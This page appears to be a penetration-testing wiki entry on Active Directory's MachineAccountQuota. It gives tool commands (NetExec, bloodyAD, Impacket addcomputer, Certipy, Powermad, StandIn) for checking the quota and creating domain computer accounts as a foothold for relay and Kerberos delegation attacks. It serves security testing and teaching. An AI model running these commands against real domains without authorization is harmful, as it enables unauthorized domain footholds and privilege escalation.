 # MachineAccountQuota

## Theory

> MachineAccountQuota (MAQ) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory (AD) domain ([source](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/))

## Practice

There are multiple ways attackers can leverage that power.

* [Force client authentications](../mitm-and-coerced-authentications/), [relay those authentications](../ntlm/relay.md) to domain controllers using LDAPS, and take advantage of authenticated sessions to create a domain computer account. This account can then be used as a foothold on the AD domain to operate authenticated recon (i.e. [with BloodHound](../../recon/bloodhound/index) for example)
* Create a computer account and use it for [Kerberos RBCD attacks](../kerberos/delegations/#resource-based-constrained-delegations-rbcd) when leveraging owned accounts with sufficient permissions (i.e. ACEs like `GenericAll`, `GenericWrite` or `WriteProperty`) against a target machine
* Create a computer account and use it for a [Kerberos Unconstrained Delegation](../kerberos/delegations/#unconstrained-delegations) attack when leveraging owned accounts with sufficient permissions (i.e. the `SeEnableDelegationPrivilege` user right)
* Profit from special rights that members of the Domain Computers group could inherit
* Profit from special rights that could automatically be applied to new domain computers based on their account name

### Check the value

::: tabs

=== UNIX-like

The [MachineAccountQuota](https://github.com/ShutdownRepo/CrackMapExec-MachineAccountQuota) module (for [NetExec](https://github.com/Pennyw0rth/NetExec) (Python)) can be used to check the value of the MachineAccountQuota attribute:

```bash
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

Alternatively, it can be done manually with the Python library [ldap3](https://pypi.org/project/ldap3/) ([source](https://github.com/cannatag/ldap3)):

```bash
import ldap3

target_dn = "DC=domain,DC=local" # change this
domain = "domain" # change this
username = "username" # change this
password = "password" # change this

user = "{}\\{}".format(domain, username)
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn,"(objectClass=*)", attributes=['ms-DS-MachineAccountQuota'])
print(connection.entries[0])
```

With [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python):

```bash
bloodyad -d $DOMAIN -u $USER -p $PASSWORD --host $DOMAIN_CONTROLLER get object 'DC=acme,DC=local' --attr ms-DS-MachineAccountQuota
```

With [ldeep](https://github.com/franc-pentest/ldeep) (Python):

```bash
ldeep ldap -d $DOMAIN -u $USER -p $PASSWORD -s $DOMAIN_CONTROLLER search '(objectclass=domain)' | jq '.[]."ms-DS-MachineAccountQuota"'
```

With ldapsearch (openldap (C)):

```bash
ldapsearch -x -H ldap://$DOMAIN_CONTROLLER -b 'DC=acme,DC=local' -D "$USER@$DOMAIN" -W -s sub "(objectclass=domain)" | grep ms-DS-MachineAccountQuota 
```


=== Windows

In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.

The following command, using the [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Get-ADDomain and Get-ADObject, will help testers make sure the controlled domain user can create computer accounts (the MachineAccountQuota domain-level attribute needs to be set higher than 0. It is set to 10 by default).

```powershell
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```

FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) project is an alternative in C# (.NET assembly) to perform some AD post-compromise operations. Among the possible actions, the MAQ attribute can be requested ([source](https://github.com/FuzzySecurity/StandIn#create-machine-object)).

```powershell
StandIn.exe --object ms-DS-MachineAccountQuota=*
```

:::


### Create a computer account

::: tabs

=== UNIX-like

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [addcomputer](https://tools.thehacker.recipes/impacket/examples/addcomputer.py) (Python) can be used to create a computer account, using the credentials of a domain user the the `MachineAccountQuota` domain-level attribute is set higher than 0 (10 by default).

```bash
addcomputer.py -computer-name 'SomeName$' -computer-pass 'SomePassword' -dc-host "$DC_HOST" -domain-netbios "$DOMAIN" "$DOMAIN"/"$USER":"$PASSWORD"
```

`addcomputer.py` also has an option `-computer-group` for adding a group to which the account will be added. Because if omitted, the group `CN=Computers` will be used by default.

Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) instead with the `--add-computer` option, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96)

> [!TIP]
> When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs. In this case, they could be added later on with [addspn.py](https://github.com/dirkjanm/krbrelayx) (Python). By default, computer accounts have the following SPNs set:
> 
> ```
> KrbRestrictedHost/hostname
> KrbRestrictedHost/hostname.domain_fqdn
> Host/hostname
> Host/hostname.domain_fqdn
> ```

With [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python):

```bash
bloodyad -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --host "$DC_HOST" add computer 'SomeName$' 'SomePassword'
```

With [ldeep](https://github.com/franc-pentest/ldeep) (Python):

```bash
ldeep ldap -u "$USER" -p "$PASSWORD" -d "$DOMAIN" -s ldap://"$DC_HOST" create_computer 'SomeName$' 'SomePassword'
```

With [Certipy](https://github.com/ly4k/Certipy) (Python):

```bash
certipy account create -username "$USER"@"$DOMAIN" -password "$PASSWORD" -dc-ip "$DC_HOST" -user 'SomeName$' -pass 'SomePassword' -dns 'SomeDNS'
```

Certipy also offers option to set the UPN (`-upn`), SAM account name (`-sam`), SPNS (`-spns`) while creating the computer.


=== Windows

The [Powermad](https://github.com/Kevin-Robertson/Powermad) module (PowerShell) can be used to create a domain computer account.

```powershell
$password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force
New-MachineAccount -MachineAccount 'PENTEST01' -Password $($password) -Verbose
```

While the machine account can only be deleted by domian administrators, it can be deactivated by the creator account with the following command using the Powermad module.

```powershell
Disable-MachineAccount -MachineAccount 'PENTEST01' -Verbose
```

An alternative is to use FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) (C#, .NET assembly) project to create a new password account with a random password, disable the account, or delete it (with elevated privileges):

```powershell
# Create the account
StandIn.exe --computer 'PENTEST01' --make

# Disable the account
StandIn.exe --computer 'PENTEST01' --disable

# Delete the account (requires elevated rights)
StandIn.exe --computer 'PENTEST01' --delete
```

:::


> [!TIP]
> Testers need to be aware that the MAQ attribute set to a non-zero value doesn't necessarily mean the users can create machine accounts. The right to add workstations to a domain can in fact be changed in the Group Policies. `Group Policy Management Console (gpmc.msc) > Domain Controllers OU > Domain Controllers Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > User Rights Assigments > Add workstations to domain`

## Resources

[https://blog.netspi.com/machineaccountquota-is-useful-sometimes/](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/)

[https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/](https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/)

[https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx](https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx)
